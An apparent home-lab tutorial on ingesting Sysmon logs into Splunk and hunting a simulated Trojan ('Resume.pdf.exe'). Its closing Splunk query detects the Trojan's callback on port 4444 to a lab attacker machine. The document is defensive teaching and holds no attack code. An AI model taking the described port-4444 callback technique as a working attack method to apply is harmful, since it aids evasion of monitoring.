

We’re basically telling Splunk to monitor `Microsoft-Windows-Sysmon/Operational`, collect all the events, and send them to `index=endpoint`.  
So, in Splunk, we need to make sure an index named `endpoint` exists—otherwise, Splunk won’t know what to do with the incoming Sysmon events.

In Splunk, go to **Settings > Indexes**, and create a new index called `endpoint`.  
Make sure the index is active and not disabled.



Now, go to **Apps > Search & Reporting**, and in the search box, type `index=endpoint`.
You’ll see that a large amount of data has been ingested.

Note that Splunk does not automatically parse Sysmon logs. To properly parse and structure the data, you’ll need to install an app called Splunk Add-on for Sysmon.


Now it's time to play with Splunk and analyze the data. For example, by searching `index=endpoint Resume.pdf.exe`, we will see **Sysmon** and **Windows Defender** logs side by side for the same incident. A basic forensic analysis shows that this is malware flagged as a **Trojan** by **Windows Defender**, detected on the **Local machine** with a **Severe** category.



Now let's analyze a **Sysmon Event ID 3**, which logs **network connections** initiated by processes.  
Running this query: `index=endpoint source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 Image=*Resume.pdf.exe`, we get the following result:



This log captures a **network connection** created by the Trojan. The malware is communicating over port `4444`, which is **not commonly used** for legitimate services. This is a technique used to bypass basic firewalls or monitoring systems that only watch standard ports. The destination IP is `192.168.20.11` (our attacker machine).  
If this were real, the host should be isolated immediately to avoid lateral movement or exfiltration.

## Conclusion:

Now that we’ve started generating telemetry from our simulated environment, we can begin exploring and analyzing this data within Splunk. This marks a crucial step in understanding how real-world cybersecurity monitoring works—transforming raw system events into actionable insights.
